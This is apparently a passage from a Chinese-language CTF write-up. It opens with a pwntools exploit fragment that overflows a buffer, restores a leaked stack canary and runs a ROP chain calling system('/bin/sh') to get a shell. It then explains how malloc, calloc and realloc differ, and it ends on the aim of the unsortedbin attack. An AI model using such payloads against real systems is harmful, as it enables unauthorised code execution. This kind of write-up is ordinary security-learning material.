```
# getshell
payload = "a" * (0x410-8) + p64(canary) + "a" * 8
payload += p64(pop_rdi) + p64(str_bin_sh) + p64(system) 
pause()
p.recvuntil(" motto:\n")
p.sendline(payload)

p.interactive()
```

### 0ctf2016 Zerostorage 

用malloc只分配空间不初始化，也就是依然保留着这段内存里的数据， 
而calloc则进行了初始化，calloc分配的空间全部初始化为0，这样就避免了可能的一些数据错误
realloc则对malloc申请的内存进行大小的调整.
三则区别：

**区别:**

(1)函数malloc不能初始化所分配的内存空间,而函数calloc能.如果由malloc()函数分配的内存空间原来没有被使用过，则其中的每一位可能都是0;反之, 如果这部分内存曾经被分配过,则其中可能遗留有各种各样的数据.也就是说，使用malloc()函数的程序开始时(内存空间还没有被重新分配)能正常进行,但经过一段时间(内存空间还已经被重新分配)可能会出现问题.
(2)函数calloc() 会将所分配的内存空间中的每一位都初始化为零,也就是说,如果你是为字符类型或整数类型的元素分配内存,那么这些元素将保证会被初始化为0;如果你是为指针类型的元素分配内存,那么这些元素通常会被初始化为空指针;如果你为实型数据分配内存,则这些元素会被初始化为浮点型的零.
(3)函数malloc向系统申请分配指定size个字节的内存空间.返回类型是 void类型.void表示未确定类型的指针.C,C++规定，void 类型可以强制转换为任何其它类型的指针.
(4)realloc可以对给定的指针所指的空间进行扩大或者缩小，无论是扩张或是缩小，原有内存的中内容将保持不变.当然，对于缩小，则被缩小的那一部分的内容会丢失.realloc并不保证调整后的内存空间和原来的内存空间保持同一内存地址.相反，realloc返回的指针很可能指向一个新的地址.
(5)realloc是从堆上分配内存的.当扩大一块内存空间时，realloc()试图直接从堆上现存的数据后面的那些字节中获得附加的字节，如果能够满足，自然天下太平；如果数据后面的字节不够，问题就出来了，那么就使用堆上第一个有足够大小的自由块，现存的数据然后就被拷贝至新的位置，而老块则放回到堆上.这句话传递的一个重要的信息就是数据可能被移动.

### unsortedbin attack

目的，把某一个地址写为特点值(一个libc地址)

<img src="/images/posts/2019-06/1561100585011.png" >
